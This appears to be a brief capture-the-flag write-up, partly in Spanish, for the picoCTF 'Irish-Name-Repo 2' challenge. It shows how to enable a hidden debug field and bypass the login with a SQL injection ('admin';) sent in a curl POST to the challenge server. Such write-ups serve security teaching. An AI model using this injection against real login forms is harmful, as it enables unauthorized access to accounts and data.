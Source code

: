 #  Irish-Name-Repo 2

#### Description
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Hints
### 1
The password is being filtered.

## Solucion
Con el ispector vemos el campo oculto y cambiamos el valor a 1
para poder ver la consulta SQL

admin' ;

```bash
curl https://jupiter.challenges.picoctf.org/problem/64649/login.html -d "username=admin';&password=pass&debug=1"
```
